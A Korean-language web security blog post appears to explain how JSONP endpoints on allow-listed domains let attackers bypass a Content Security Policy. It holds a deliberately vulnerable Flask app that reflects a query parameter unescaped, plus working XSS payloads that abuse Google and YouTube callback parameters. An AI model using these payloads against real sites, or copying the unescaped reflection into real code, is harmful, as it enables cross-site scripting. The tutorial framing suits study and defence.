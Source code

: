```yaml
---
title: CSP Bypass with JSONP
date: 2023-12-07
author: glasses96
categories: [WEB]
tags: [CSP Bypass, JSONP]
pin: true
math: true
mermaid: true
---
```


> **CSP에 script-src에 JSONP API를 지원하는 서버가 있을 경우 이를 이용하여 XSS를 하는 방법을 알아봅시다.**  
{: .prompt-info }

## What is JSONP
JSONP는 SOP(Same Origin Policy)정책을 우회하기 위해 사용하는 방법입니다.  
`JSONP는 HTML 문서의 script 태그로 다른 도메인을 요청 할 시 SOP 정책이 적용되지 않는 방식`을 이용하여 동작합니다.  
script 태그는 src 속성 값을 호출한 결과를 javascript로 불러와서 즉시 실행시키는 기능입니다.

### Attack Point

만약 CSP에서 허용한 출처가 JSONP API를 지원한다면, `callback 파라미터에 원하는 스크립트`를 삽입하여 공격이 가능합니다.  
예를 들어 웹 페이지에서 *.google.com에서 온 출처만 허용한다고 가정해봅시다. 이 경우, 구글에서 JSONP API를 지원하는 서버를 찾아 callback에 원하는 스크립트를 삽입할 수 있습니다.  

예시 코드를 보면 CSP 적용되어 있어 text 변수에 스크립트 구문을 넣어도 CSP 떄문에 스크립트를 실행할 수 없습니다.
```py
#!/usr/bin/env python3
from flask import Flask, request

app = Flask(__name__)

@app.after_request
def add_header(response):
    global nonce

    csp = (
        "default-src 'self'; "
        "script-src 'self' *.google.com *.youtube.com; "
        "img-src 'self'; "
        "style-src 'self'; "
        "object-src 'none'; "
        "base-uri 'none';"
    )
    response.headers['Content-Security-Policy'] = csp
    return response


@app.route('/', methods=['GET'])
def index():
    text = request.args.get("text", "test")
    return f"<html><body>text : {text}</body></html>"


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5555)

```

![스크립트 삽입 에러](/assets/post/51/1.png))

### Google Accounts
JSONP API를 지원하는 callback에 원하는 페이로드를 넣어서 XSS 동작이 가능합니다.
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(`glasses96`);"></script>
```
![XSS_Google](/assets/post/51/2.png)

### youtube

```
<script src="https://www.youtube.com/oembed?url=http://www.youtube.com/watch?v=bDOYN-6gdRE%26format=json%26callback=alert(`glasses96`)";></script>
```
![XSS_Youtube](/assets/post/51/3.png)

## Next?
다음은 service worker를 이용하여 XSS를 동작시키는 방법에 대해서 알아보겠습니다.

## Reference
- https://learn.dreamhack.io/322
- https://lactea.kr/entry/ctf-%EB%AC%B8%EC%A0%9C%EB%A5%BC-%ED%86%B5%ED%95%B4-CSP-bypass-%EC%A0%95%EB%A6%AC%ED%95%98%EA%B8%B0